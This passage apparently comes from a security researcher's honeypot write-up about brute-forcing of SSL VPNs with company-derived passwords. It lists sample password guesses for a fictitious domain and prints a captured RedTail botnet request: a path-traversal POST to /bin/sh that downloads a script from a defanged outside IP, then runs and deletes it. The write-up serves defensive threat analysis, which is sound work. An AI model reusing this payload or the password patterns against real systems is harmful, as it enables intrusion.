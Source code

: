 Now, to be transparent, I've done this to a limited capacity in labs and simulated engagements. You know, as one does.
A tool like [CeWL](https://github.com/digininja/CeWL) often renders patterns such as business names, employee
names, etc., in custom wordlists. However, I'm not sure it’s the case that this is being operated autonomously at scale here. 

My direct assertion is that adversary bruteforcing infrastructure will actively enumerate characteristics
of websites and domains to attempt common passwords for SSLVPN infrastructure. (Groundbreaking, I know.)

An example: Our company website may be `https://bigevilcorp.example` and perhaps we've got our VPN sitting at
`https://vpn.bigevilcorp.example`. Our data would suggest the following passwords as likely candidates: 

- bigevilcorp2025  
- bigevilcorp@2024  
- bigevilcorp123!  
- bigevilcorp1!  
- And so on... 

We don’t yet have a reliable way to determine exactly how this enumeration is happening. The absence 
of additional words or users from the “fake website” strongly suggests CeWL probably isn’t the tool of 
choice here. That’s not to say we haven’t seen attempts on specific usernames or passwords tied to the
fictitious company-- just that they’re rare enough to make us question whether humans or bots are having 
a mild identity crisis.

### Resource Request Anomalies

We capture resources requested and header parameters, so let's take a look at those now... 

#### Botnets and Background

We're greeted with some usual suspects here. I tend to automatically quell standard botnet behavior from honeypots because, frankly,
it just ends up becoming noise. But we do get RedTail hits on the honeypot. 

![ElasticSearch entry for RedTail.]({E00247B1-B40E-439A-813A-D0D5C575C0CD}.png "Figure 5. RedTail's signature query.")

For posterity, the request:

```plaintext
POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/sh
cd /tmp || cd /var/tmp; curl hxxp[://]178.16.55[.]224/sh -o redtail.sh || wget hxxp[://]178.16.55[.]224/sh -O redtail.sh; chmod +x redtail.sh; ./redtail.sh apache.selfrep; rm -rf redtail.sh
```
